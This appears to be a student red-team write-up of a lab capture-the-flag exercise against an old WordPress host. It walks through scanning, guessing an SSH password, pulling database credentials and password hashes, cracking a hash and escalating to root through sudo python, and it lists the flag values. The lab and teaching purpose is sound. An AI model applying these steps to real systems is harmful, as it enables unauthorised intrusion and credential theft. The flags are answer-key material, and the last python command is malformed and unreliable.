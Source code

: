 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Service
 
Nmap scan results for the target machine reveal the below services and OS details:
 
```bash
$ nmap -sV -O 192.168.1.0/24
```
 
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp – SSH – open 
    Allows ssh logins and brute force attack using dictionary.
 
  - Port 80/tcp – HTTP – open 
Allows for HTTP traffic and brute force attack using dictionary.
 
  - Port 111/tcp – rbcbind – open 
    Allows to see what services are running which help hackers in the reconnaissance step. RPC has several security vulnerabilities.
 
   - Port 139/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
     
   - Port 445/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
 
 
The following vulnerabilities were identified on target 1:

 
### WPScan
- WPScan was ran to enumerate version and users. 
- Wordpress is running version 3.7.8, which has many vulnerabilities:
 https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224460/Wordpress-Wordpress-3.7.8.html
- Two users were found: Michael and Steven.

### Brute Force Attack
 
- Michael password was guessed, and it was the same as his login, Michael. 
- Steven password was cracked using john the ripper after finding his has hash.
 
### Python Shell Commands
- After logged in as Steven, I used the python bash commands to gain root access. 

## Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt`: {b9bbcb33e11b80be759}
     - **Exploit Used:**
         - Used ls to look at the html directory an inspected the files in it. Found the flag in the html directory.
     - **Commands Used:**
```bash
$ cd /var/www/html
$ ls
$ cat service.html
```
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used:**
         - Weak password policy
         - Michael’s password was guessed while trying to login to his account using ssh.
         - The flag was found using the locate command. Flag was found in yhe /var/www directory.
     - **Commands used:**
```bash
$ ssh michael@192.168.1.110
Password: Michael
$ locate flag
```                           
 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used:**
        - Looking for information that sysadmin forgot to remove. 
        - Found the password for the MySQL database in the file wp_config.html located in the directory /var/www/html/wordpress.
        - Logged into the MySQL database and found the hashes for Michael’s and Steve’s password in the worpress database in the wp_users table.
        - Found flag 3 in the table wp_posts 
     - **Commands used:**
```bash
$ Mysql -u root -p
$ Show database;
$ Use wordpress;
$ Show tables;
$ Select * from wp_users;
$ select * from wp_posts where post_title=”flag3”;
```        
- `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used**
       - Python Shell command
       - Steven’s password was cracked using john the riper after creating a file called wp_hashes.txt with his hash in it.
       - Once logged in as Steven, I still could not gain root access, but found out with sudo -l that he could run commands on raven without password.
       - Python scrip was run to gain access and flag 4 was found.
    - **Command used:**
```bash
$ john wp_hashes.txt. The password is pink84.
$ sudo -l
$ sudo /usr/bin/python
>>> import os
>>> os.system ("sudo su root"|)
$ whoami
```
 





